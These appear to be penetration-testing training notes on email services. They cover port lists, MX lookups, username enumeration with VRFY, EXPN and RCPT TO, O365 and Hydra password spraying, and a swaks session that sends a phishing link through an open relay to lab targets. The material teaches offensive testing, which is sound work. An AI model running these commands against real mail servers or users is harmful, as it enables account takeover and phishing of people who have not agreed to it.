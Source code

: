 | Port    | Service                 |
| ------- | ----------------------- |
| TCP/25  | SMTP Unencrypted        |
| TCP/143 | IMAP4 Unencrypted       |
| TCP/110 | POP3 Unencrypted        |
| TCP/465 | SMTP Encrypted          |
| TCP/587 | SMTP Encrypted/STARTTLS |
| TCP/993 | IMAP4 Encrypted         |
| TCP/995 | POP3 Encrypted          |
![text](https://academy.hackthebox.com/storage/modules/116/SMTP-IMAP-1.png)

# Enumeration
We can use tools such as `host` or `dig` and online websites such as [MXToolbox](https://mxtoolbox.com/) to query information about the MX records:
#### Host - MX Records
```shell
host -t MX hackthebox.eu
```

```shell
host -t MX microsoft.com
```
#### DIG - MX Records
```shell
dig mx plaintext.do | grep "MX" | grep -v ";"
```

```shell
dig mx inlanefreight.com | grep "MX" | grep -v ";"
```
#### Host - A Records
```shell
host -t A mail1.inlanefreight.htb
```
#### NMAP
```shell
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```
# Misconfigurations
- A misconfiguration can happen when the SMTP service allows anonymous authentication or support protocols that can be used to enumerate valid usernames.
## Authentication
```shell
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```
- The SMTP server has different commands that can be used to enumerate valid usernames `VRFY`, `EXPN`, and `RCPT TO`. 
- If we successfully enumerate valid usernames, we can attempt to password spray, brute-forcing, or guess a valid password.
#### VRFY Command
```shell
telnet 10.10.110.20 25
```

```telnet
VRFY root
VRFY www-data
VRFY new-user
```
#### EXPN Command
```shell
telnet 10.10.110.20 25
```
```telnet
EXPN john
EXPN support-team
```
#### RCPT TO Command
```shell
telnet 10.10.110.20 25
```
```telnet
MAIL FROM:test@htb.com
it is

RCPT TO:julio
RCPT TO:kate
RCPT TO:john
```
#### USER Command
```shell
telnet 10.10.110.20 110
```
```telnet
USER julio
USER john
```
### smtp-user-enum
```shell
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```
## Cloud Enumeration
### O365 Spray
```shell
python3 o365spray.py --validate --domain msplaintext.xyz
```
```shell
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```
#### O365 Spray - Password Spraying
```shell
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
## Password Attacks
#### Hydra - Password Attack
```shell
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```
## Protocol Specifics Attacks
- An open relay is a Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay.
#### Open Relay
```shell
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
#### swaks
```shell
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```